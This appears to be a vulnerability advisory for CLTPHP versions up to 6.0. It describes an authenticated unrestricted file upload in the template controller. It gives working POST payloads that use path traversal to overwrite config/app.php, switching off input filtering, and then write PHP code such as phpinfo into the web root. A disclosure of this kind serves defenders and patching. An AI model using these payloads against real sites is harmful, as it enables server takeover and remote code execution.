







# CLTPHP <= 6.0 Unrestricted Upload of File with Dangerous Type 1
## Description
    The system client does not handle these parameters correctly, resulting in an Unrestricted Upload of File with Dangerous Type.
## Vendor Homepage
    https://gitee.com/chichu/cltopen/
    https://www.cltphp.com/

## Author
    HuBen-Lab
## Proof of Concept
File:`application/admin/controller/Template.php `

Exploiting this vulnerability requires logging into the system.

1. Try to write 5.php to the static directory, click submit and grab the package.

   

   

   After visiting 5.php, I found that the code could not be parsedCheck the source code and find that the < is converted to entity code format

   

2. There are two types of situations

   - CLTPHP = 6.0

     We just need to pass random values to override config/app.php to disable the filtering configuration

     

     ```
     type=php&file=../../../../config/app&content=123
     ```

     Then pass in phpinfo

     

     ```
     type=php&file=../../../app&content=<?php phpinfo();?>
     ```

     Write success

     

   - CLTPHP  < 6.0
   
     just use this payload
   
     ```
     POST /index.php/admin/template/insert.html
     
     type=php&file=../../../../filename&content=<?php phpinfo();>
     ```
   
     
